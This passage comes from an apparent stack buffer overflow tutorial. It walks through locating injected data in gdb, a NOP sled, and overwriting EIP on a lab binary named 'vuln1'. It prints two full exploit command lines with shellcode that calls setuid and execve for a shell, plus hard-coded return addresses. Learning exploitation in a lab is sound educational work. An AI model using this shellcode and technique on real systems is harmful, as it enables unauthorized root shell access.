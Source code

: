 You can see that the A's start between 0xffffcfd0 and 0xffffcfe0. If we want we can find the exact location of the start our A's with the following command.
```
x/4 0xffffcfd0
```

![bo-011.png](/assets/images/bo-011.jpg)
**Figure 11** Finding the exact location of our inserted data.

So, we can use the exact location of the starting code for our shell, meaning, that location address will be the return address we write over the EIP, in that way we can execute the code since the EIP is the pointer that responsible on the instruction way, so it point to some address that locate the code and execute it. But there is more option that we can do, on assembly there is NOP byte, which is `\x90` and it use as sled (slide), because if the system get such byte `\x90` it just jump to the next byte, which mean that if there is chains of `\x90` it will go to the next, and next, and next, until it will be find some code for execution.

If we chose to use that way of execution, we can use the return address that we saw earlier ( on figure 10) `0xffffcfe0`, that return address not point to the first byte of our code, instead it point to several bytes next to it, so in our case, if we use that and instead of `A` we using NOP byte, it will go next and next until it will get to our shellcode.

So the new line of code should look like the following:
```
(gdb) run $(python2 -c "print '\x90'*468+'\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80'+'\xe0\xcf\xff\xff'")
````

The last four bytes is our return address which we write done way, so the return address was: ffffcfe0. We write it backwards e0cfffff. With our shellcode we can run it and get shell directly from gdb.

![bo-013.png](/assets/images/bo-013.png)
**Figure 13** Our shell from vuln1 file on GDB.

So now it should work directly from our terminal, after several check on my machine I found that this code give me segmentation fault, since on gdb it working, I was wonder why on that case it doesn't work right.

![bo-014.png](/assets/images/bo-014.png)
**Figure 14** Again segmentation fault.

I have made some test again and came up with the following which work on the terminal directly:
```
./vuln1 $(python2 -c "print '\x90'*372+'\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80'+'\x21\xd0\xff\xff'+'C'*96")
```
